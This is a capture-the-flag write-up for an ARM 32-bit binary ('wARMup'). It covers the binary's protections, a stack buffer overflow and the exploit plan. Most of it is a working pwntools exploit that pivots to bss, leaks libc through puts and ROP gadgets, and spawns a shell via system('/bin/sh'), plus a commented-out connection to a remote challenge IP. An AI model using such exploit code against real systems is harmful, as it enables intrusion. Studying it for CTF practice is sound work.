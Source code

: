## 1. Protection

```bash
[checksec]
Arch:     arm-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x10000)
```
NX bit doesn't set because it's run on QEMU.

---

## 2.Vulnerability

Stack Buffer-Overflow

---

## 3.Exploit-Flow

1. write ROP gadget at bss using read gadget in main function
2. leave-ret to bss
3. ROP

---

## 4. Exploit-Code

```python
from pwn import *
import sys

if sys.argv[1]=='0':
    p=process(['qemu-arm','-L','./','./wARMup'])
elif sys.argv[1]=='1':
    print 'debug...'
    p=process(['qemu-arm','-g','1234','-L','./','./wARMup'])

#p=remote('18.191.89.190',1337)

read_plt=0x1037c
read_got=0x2100c
puts_got=0x21014
puts_plt=0x10394
main=0x104f8

pop_r3_pc=0x00010364
mov_r0_r3_call_r3=0x0001059c
p45678sbslpc=0x000105ac
p4x6012xpd=0x000105ac
buf=0x21500

payload='A'*0x64
payload+=p32(buf+0x68)
payload+=p32(0x1052c)
payload+="B"*(0x78-len(payload))

p.send(payload)

pause()
payload2=p32(pop_r3_pc)+p32(puts_plt)
payload2+=p32(p45678sbslpc)+"A"*12+p32(read_got)+"A"*12
payload2+=p32(mov_r0_r3_call_r3)
payload2+=p32(0)+p32(read_got)+p32(1)+p32(0)+p32(buf+len(payload2)+32)+p32(0x80)+"A"*4+p32(0x1058c)
payload2+='A'*(0x64-len(payload2))
payload2+=p32(buf)+p32(0x10548)
p.send(payload2)

p.recvuntil('CTF!\n')
read=u32(p.recvn(4))
libc=read-0xc1150
system=libc+0x37154
binsh=libc+0x11d588
success('libc = {}'.format(hex(libc)))
success('system = {}'.format(hex(system)))

payload3=p32(0)+p32(buf+0x6c)+p32(1)+p32(binsh)+"A"*12+p32(0x1058c)+p32(system)
p.send(payload3)

p.interactive()
```

ROP using libc_csu_init gadget : )

---

## 5. Review

- NX bit is never set when binary is running on QEMU.  With this fact, it could be easily solved using arm shell-code.
